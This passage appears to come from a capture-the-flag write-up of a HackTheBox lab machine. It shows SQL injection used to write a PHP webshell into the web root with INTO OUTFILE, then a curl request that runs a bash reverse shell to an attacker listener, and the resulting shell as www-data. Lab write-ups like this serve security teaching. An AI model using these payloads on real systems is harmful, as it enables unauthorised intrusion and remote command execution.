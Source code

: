     CONNECTION ADMIN
    READ_ONLY ADMIN
    REPLICATION SLAVE ADMIN
    REPLICATION MASTER ADMIN
    BINLOG ADMIN
    BINLOG REPLAY
    SLAVE MONITOR
    

It’s a lot, but `FILE` jumps out as interesting.

### Webshell

#### File Write

Another thing to try is writing a file. I’ll run:

    
    
    > select "0xdf was here!" into outfile '/var/www/html/0xdf.txt'
    

It doesn’t return anything, because if it worked, it would return 0 columns,
when it’s trying to union with 1 column, which will lead to an error (after it
writes the file).

The file does exist on the server:

![image-20210913214425073](https://0xdfimages.gitlab.io/img/image-20210913214425073.png)

#### Write Shell

I’ll run that again, but this time write a simple PHP webshell:

    
    
    > select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/0xdf.php'
    

It worked:

![image-20210913214546110](https://0xdfimages.gitlab.io/img/image-20210913214546110.png)

### Shell

To get a full shell, I’ll start `nc` on 443 and run:

    
    
    oxdf@parrot$ curl 10.10.11.116/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'
    

It hangs, but at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.60] from (UNKNOWN) [10.10.11.116] 35078
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@validation:/var/www/html$ 
    